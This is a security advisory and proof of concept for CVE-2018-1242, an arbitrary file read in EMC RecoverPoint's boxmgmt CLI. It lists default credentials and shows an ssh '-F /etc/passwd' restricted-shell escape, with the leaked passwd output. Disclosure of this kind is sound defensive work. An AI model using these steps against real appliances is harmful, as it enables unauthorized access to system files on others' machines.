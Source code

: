 ## EMC RecoverPoint boxmgmt CLI arbitrary file read

- Version: All versions before RP 5.1.2, and all versions before RP4VMs 5.1.1.3
- Date: 2018-05-21
- Vendor Advisory: DSA-2018-095
- Vendor KB: https://support.emc.com/kb/521234
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo/dell-emc_recoverpoint
- Website: https://www.foregenix.com/blog/foregenix-identify-dell-emc-recoverpoint-zero-day-vulnerabilities
- Tested on: Tested on: RP4VMs 5.1.1.2, RP 5.1.SP1.P2
- CVE: CVE-2018-1242
- Exploit-db: https://www.exploit-db.com/exploits/.../

## 1. Description
When logging in as boxmgmt and running an internal command, the ssh command may be used to display the contents of files from the file system which are accessible to the boxmgmt user.

## 2. Proof of Concept

- Log in as boxmgmt via SSH (default credentials boxmgmt/boxmgmt)
- Select `[3] Diagnostics`
- Select `[5] Run Internal Command`
- `ssh -F /etc/passwd 127.0.0.1`

```
test-cluster: 5
This is the list of commands you are allowed to use: ALAT NetDiag arp arping date ethtool kps.pl netstat ping ping6 ssh telnet top uptime
Enter internal command: ssh -F /etc/passwd 127.0.0.1
/etc/passwd: line 1: Bad configuration option: root:x:0:0:root:/root:/bin/tcsh
/etc/passwd: line 2: Bad configuration option: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
/etc/passwd: line 3: Bad configuration option: bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
/etc/passwd: terminating, 34 bad configuration options
Command "ssh -F /etc/passwd 127.0.0.1" exited with return code 65280.
```

## 3. Solution:

Update to latest version of RecoverPoint
